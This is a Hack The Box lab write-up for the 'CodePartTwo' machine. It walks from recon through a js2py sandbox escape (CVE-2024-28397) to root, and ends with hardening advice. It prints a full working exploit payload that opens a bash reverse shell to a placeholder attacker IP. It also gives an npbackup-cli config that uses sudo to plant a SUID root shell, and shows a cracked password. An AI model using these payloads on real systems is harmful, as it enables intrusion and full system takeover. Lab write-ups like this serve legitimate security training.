Category : Linux Difficulty : Easy
Synopsis¶
CodePartTwo is an Easy Linux Hack The Box machine that revolves around a custom Flask web application. The application allows users to submit and execute JavaScript code server-side using the js2py library. Due to an outdated and vulnerable version of js2py, the application is susceptible to a sandbox escape (CVE-2024-28397), allowing remote code execution.
By exploiting this vulnerability, I obtained an initial shell on the system, extracted credential hashes from a SQLite database, pivoted to another user via SSH, and finally escalated privileges to root through a misconfigured sudo permission on npbackup-cli.
Reconnaissance¶
I began with a Rustscan, which revealed two open ports on the target:
- 22/tcp – SSH
- 8000/tcp – HTTP
rustscan -a 10.129.14.51 -- -sC -sV

So, in the rustscan syntax, the -- enables us to pass the nmap commands -sC and -sV and thus nmap is ran

Enumeration¶
With port 8000 open, I navigated to the web application in the browser.

The landing page presented three main options:
- Login
- Register
- Download App
While the application was downloading, I proceeded to enumerate the web server using Gobuster.
gobuster dir -u http://10.129.14.51:8000/ -w /usr/share/wordlists/dirb/common.txt

The directories discovered matched what was already exposed by the web interface, so no hidden paths of interest were found at this stage.
Application Analysis¶
Clicking Download App returned a ZIP archive. Extracting it revealed the source code for the web application.

Before interacting further with the live site, I decided to review the source code locally. The first file I inspected was app.py. Almost immediately, I noticed two sensitive values hardcoded in the application:
app.secret_key = 'S3cr3tK3yC0d3PartTw0'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///users.db'

The presence of a local SQLite database prompted me to inspect it using sqlite3.
sqlite3 users.db
sqlite> .tables
sqlite> SELECT * FROM user;
sqlite3 SELECT * FROM code_snippet;

Two tables were present: user and codesnippet. However, both tables were empty at this point.
I continued reviewing the rest of the application files and examined requirements.txt.

At this stage, I had a clear understanding of the technology stack and application layout.
Application Structure¶
The requirements.txt confirmed that this was a custom Flask application
Key components included:
-
Flask 3.0.3
Used for routing (/login,/register,/dashboard), templating with Jinja2, and session handling via the previously discoveredsecret_key. -
Flask-SQLAlchemy 3.1.1
Handles database interactions with the SQLite databaseusers.db. -
js2py 0.74
Executes JavaScript code inside Python, likely used to process user-submitted code from the dashboard.
The directory structure followed a standard Flask layout:
app.py– Application logic and routestemplates/– HTML templatesstatic/– JavaScript and CSSinstance/– SQLite database
Web Application Interaction¶
With the application structure understood, I returned to the live site and created an account. After logging in, I was redirected to a dashboard containing a JavaScript code editor with Run and Save functionality.

The editor included placeholder JavaScript code. I rewrote it slightly and executed it to observe the behavior.
var x = 16;
x;

The output correctly returned 16, confirming that the JavaScript was being executed on the server.
Understanding the Execution Logic¶
From both code review and testing, the execution flow became clear:
- User submits JavaScript code via the dashboard
- The code is sent via POST to a Flask route
app.pyexecutes the code usingjs2py.eval_js()- The result is returned and rendered in the browser
In short, the user-supplied JavaScript was executed server-side using js2py.
This immediately raised a red flag, especially given the js2py version in use.
Vulnerability Discovery¶
The application was using js2py version 0.74, which is affected by a known sandbox escape vulnerability, CVE-2024-28397: js2py Sandbox Escape Exploit
CVE-2024-28397 – js2py Sandbox Escape
A critical remote code execution (RCE) vulnerability exists in **js2py ≤ 0.74** that allows attackers to escape the JavaScript sandbox and execute arbitrary system commands. Tracked as **CVE-2024-28397** (CVSS 9.8), the issue stems from incomplete sandboxing, which allows JavaScript code to access Python internals through object introspection. This can be abused to reach system-level functions such as `subprocess.Popen`, resulting in full command execution on the server.
I located a public exploit PoC on GitHub:
https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape
Exploitation – Initial Foothold¶
I tested the exploit payload inside the dashboard editor. My first attempt resulted in errors.

After tweaking the payload and configuring a reverse shell, I successfully obtained a shell connection back to my machine.

Below is the final working payload used to gain a reverse shell (only the attacker IP and port need modification):
var cmd = "bash -c \"bash -i >& /dev/tcp/1<ATTACKER-IP>/<PORT> 0>&1\"";
var hacked, bymarve, n11, getattr, obj;
hacked = Object.getOwnPropertyNames({});
bymarve = hacked.__getattribute__;
n11 = bymarve("__getattribute__");
obj = n11("__class__").__base__;
getattr = obj.__getattribute__;
function findpopen(o) {
var result, i, item;
var subclasses = o.__subclasses__();
for(i = 0; i < subclasses.length; i++) {
item = subclasses[i];
if(item.__module__ == "subprocess" && item.__name__ == "Popen") {
return item;
}
if(item.__name__ != "type" && (result = findpopen(item))) {
return result;
}
}
return null;
}
n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate();
console.log(n11);
n11;
Post-Exploitation Enumeration¶
With a shell obtained, I began enumerating the system. Inside /home, I discovered another user marco

I recalled that the application database users.db was empty when accessed locally. Since I now had server access, I inspected it again.
sqlite3 users.db
sqlite> .tables
sqlite> SELECT * FROM user;
This time, the database contained password hashes for multiple users, including marco, app, and the user account I had created earlier (johhny).

My target was marco.
Credential Cracking & Lateral Movement¶
I copied Marco’s password hash and submitted it to crackstation.net. The hash cracked successfully.
- Password:
sweetangelbabylove

Using these credentials, I logged in as Marco via SSH and retrieved the user flag.
ssh marco@<TARGET-IP>

Privilege Escalation¶
With access to marco’s account via SSH, I checked his sudo privileges as the first Privilege Escalation vector.
The output revealed that Marco could run the following command as any user without a password
/usr/local/bin/npbackup-cli

Privilege Escalation: npbackup-cli Abuse¶
Background¶
npbackup-cli is a Python-based backup utility that uses restic. It reads a YAML configuration file (npbackup.conf) which supports execution of commands after backup completion via post_exec_commands.
The vulnerability here is a sudo misconfiguration. Marco is allowed to run npbackup-cli as root, meaning any commands defined in the configuration file will be executed with full root privileges.
Exploitation Steps¶
The default configuration file in /home/marco was owned by root and could not be edited.
img21
I thus copied it to /tmp, which is writable.
cp /home/marco/npbackup.conf /tmp/npbackup.conf

I modified the copied configuration to target the /root directory and added commands to create a SUID root shell.
cat > /tmp/npbackup.conf << 'EOF'
conf_version: 3.0.1
audience: public
repos:
default:
repo_uri: /tmp/dummy-repo
repo_group: default_group
backup_opts:
paths:
- /root
source_type: folder_list
repo_opts:
repo_password: dummy
retention_policy: {}
groups:
default_group:
backup_opts:
post_exec_commands:
- cp /bin/bash /tmp/rootbash
- chmod u+s /tmp/rootbash
EOF

I ensured the file was writable.
chmod 666 /tmp/npbackup.conf
I then executed the backup as root.
sudo /usr/local/bin/npbackup-cli -c /tmp/npbackup.conf -b
Even though an error appeared, the post-execution commands had already run.
Root Access¶
I spawned a root shell using the SUID binary.
/tmp/rootbash -p

Finally, I retrieved the root flag.
cat /root/root.txt

Room Completed

Remediation & Hardening Recommendations¶
-
Do not execute user-supplied code server-side. If required, isolate execution using containers or dedicated sandboxing solutions.
-
Update or remove vulnerable dependencies, particularly outdated libraries such as js2py.
-
Remove hardcoded secrets from source code and store them securely using environment variables.
-
Restrict database file permissions to prevent unauthorized access to credential data.
-
Harden sudo configurations by avoiding unrestricted execution of scripts or tools like
npbackup-cli, especially those supporting command execution hooks.
Lessons Learned¶
This machine shows how small misconfigurations can combine into a full compromise. Executing user-supplied code, outdated libraries, and exposed secrets made it easy to escalate from a web app to root. It’s a strong reminder to enforce least privilege, manage dependencies, and secure sensitive data